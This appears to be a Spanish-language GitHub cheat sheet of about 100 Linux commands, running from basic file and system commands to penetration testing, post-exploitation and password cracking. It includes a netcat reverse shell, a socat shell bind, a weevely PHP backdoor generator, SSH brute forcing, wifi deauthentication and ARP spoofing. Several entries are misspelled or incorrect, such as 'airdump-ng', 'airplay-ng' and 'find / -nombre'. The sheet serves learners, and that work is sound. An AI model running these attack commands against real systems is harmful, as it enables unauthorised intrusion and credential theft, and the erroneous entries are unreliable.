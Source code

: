 # C-digo-b-sico
# 01. Código de comandos básicos para Linux:
   
* `pwd` - Directorio actual
* `ls` - Lista los archivos del directorio
* `cd` - Cambia de directorio
* `mkdir <carpeta>` - Crea una carpeta
* `rm <archivo>` - Borra un archivo
* `rmdir -r <carpeta>`- Borra una carpeta
* `cp <archivo> <destino>` - Copia archivos
* `mv <archivo> <destino>` - mueve/cambia de nombre archivos
* `touch <archivo>` - Crea un archivo
* `cat <archivo>` - Muestra el contenido de un archivo
* `nano <archivo>` - Editor de archivo Nano
* `vim <archivo>` - Editor de archivo Vim
* `find / -nombre <archivo>` - Busca un archivo
* `grep "texto" <archivo>` - Busca un texto en un archivo 
* `history` - Muestra la historia de comandos

# 02. Comandos de información del sistema:

16. uname -a - Muestra información del sistema
17. whoami - Muestra el usuario actual
18. id - Muestra el ID del usuario y del grupo
19. uptime - Muestra la cantidad de tiempo del sistema está operativo
20. df -h - Muestra el uso del disco
21. du -sh <carpeta> - Muestra el tamaño de una carpeta
22. top - Muestra procesos activos
23. ps aux - Lista los procesos que se están ejecutando
24. kill <proceso> - Termina un proceso
25. htop - Gestion de procesos interactivos

# 03. Uso de comandos de gestión:

26. adduser <usuario> - Añade un nuevo usuario
27. deluser <usuario> - Elimina un usuario
28. passwd <usuario> - Cambia la contraseña
29. usermod -aG sudo <usuario> - Da acceso de superusuario
30. groups <usuario> -Muestra los grupos del usuario
31. chmod 777 <archivo> - Cambia los permisos del archivo
32. chown usuario:grupo <archivo> - Cambia el dueño del archivo

# 04. Comandos en redes:

33. ifconfig - Muestra la interfaz de la red
34. ip a - Muestra la dirección IP
35. iwconfig - Muestra la interfaz wifi
36. ping <IP> - Test de conexión IP
37. netstat -tulnp - Muestra los puertos abiertos
38. nmap <IP> - Escanea los puertos abierto del objetivo
39. traceroute <IP> - Traza una ruta a un host
40. curl <URL> - Busca datos de una URL
41. wget <URL> - Descarga un archivo
42. dig <dominio> - Obtiene infomacion DNS
43. nslookup <dominio> - Realiza una busqueda de DNS

# 05. Comandos de Hacking & Test de Penetración:

44. msfconsole - Inicia Mestasploit
45. msfvenom - Genera cargas útiles (payloads)
46. searchsploit <exploit> - Busca exploits
47. sqlmap -u <URL> --dbs - Test de SQL injection
48. hydra -l user -P pass.txt <IP> shh - SSH de fuerza bruta
49. john --wordlist=rockyou.txt hash.txt - Crackea hashes
50. airmon-ng start wlan0 - Permite modo monitorización
51. airdump-ng wlan0mon - Captura paquetes wifi
52. airplay-ng -0 10 -a <BSSID> wlan0mon - Desautentica clientes
53. aircrack-ng -w rockyou.txt -b <BSSID> <archivo_capturado> - Crackea contraseña WIFI
54. hashcat -m 2500 hash.txt rockyou.txt - Cracka hashes usando GPU
55. ettercap -T -q -i eth0 - Realiza una suplantación de ARP
56. driftnet -i eth0 - Captura imágenes del trafico de red
57. tcpdump -i eth0 - Captura paquetes de red
58. tshark -i eth0 - Analisis del trafico de red
59. nikto -h <URL> - Escanea nulnerabilidades de servidores web
60. gobuster dir -u <URL> -w /urs/share/wordlists/dirb/common.txt - Fuerza bruta de la carpeta
61. wpscan --url <URL> - Escanea vulnerabilidades en WordPress

#06. Escalada de Privilegios & Post-Explotaciones:

62. sudo -l - Muestr los privilegios de superusuario
63. sudo su - Cambia a usuario root
64. python -c 'import pty:pty.spawn("/bin/bash/")' - Habilita el shell/terminal
65. nc -lvnp <puerto> - Empieza un Netcat de escucha
66. nc <IP> <puerto> -e /bin/bash - Shell inverso
67. meterpreter> getuid - Muestra el usuario actual en Meterpreter
68. meterpreter> getsystem - Intenta escalar privilegios
69. meterpreter> upload / download <archivo> - Transfiere archivos
70. merterpreter> shell - Obterner shell/terminal del sistema
71. linux-exploit-suggester - Sugiere exploits para escalada de privilegios

# 07. Cifrado de Archivos & Datos:

72. gpg -c <archivo> - Cifra un archivo
73. gpg -d <archivo.gpg> - Descifra un archivo
74. openssl enc -aes-256-cbc -salt -in <archivo> -out <archivo.enc> Cifra usando OpenSSL
75. openssl enc -d -aes-256-cbc -salt -in <archivo.enc> -out <archivo> - Descifra el archivo

# 08. Forense & Esteganografía:

76. string <archivo> - Extrae los strigns de un archivo
77. binwalk <archivo> - Analiza binarios
78. foremost -i <imagen> - Extrae archivos de una imagen
79. exiftool <archivo> - Muestra los metadatos de un archivo
80. stegseek <archivo steg/stegfile> -Detecta datos ocultos en una imagen

09. Cracking de Contraseñas & Hashes:

81. hashid <hash> - Identifica el tipo de hash
82. hydra -L users.txt -P passwords.txt ssh://<IP> - Fuerza bruta SSH
83. john hash.txt --wordlists=rockyou.txt - Crackea hashes de contraseñas

10. Tests de Aplicaciones Web:

84. dir <URL> - Enumeracion de carpetas
85. wfuzz -c -z file,wordlists.txt --hc 404 <URL>/ FUZZ - Web fuzzing
86. xsssniper -u <URL> - Test para XSS
87. commix --url <URL> - Test de inyección de comandos
88. burpsuite - Test con Burp Suite

# Varios:

89. crunch 8 8 abcdefghijklmnopqrstuvwxyz - Genera una wordlist
90. proxychains nmap -sT -Pn <IP> - Usa proxychains con Nmap
91. tor - Abre navegador Tor
92. mitmproxy - Empieza un proxy de man-in-the-middle
93. setoolkit - Comienza una Ingenieria Social con Toolkit
94. cewl -w words.txt -d 5 <URL> - Genera una lista de palabras personalizadas
95. weevely generate password backdoor.php - Crea una backdoor en una web
96. socat TCP-LISTEN:4444,fork EXEC:/bin/bash - Une el shell
97. whois <domain> - Da información sobre el dominio
98. theHarvester -d <domain> -l 100 -b google -Recolecta información sobre email y subdominios
99. fcrackzip -u -D -p rockyou.txt <archivo.zip> - Crackea una contraseña de un archivo .zip
100. dnscan -d <dominio> - Muestra subdominios
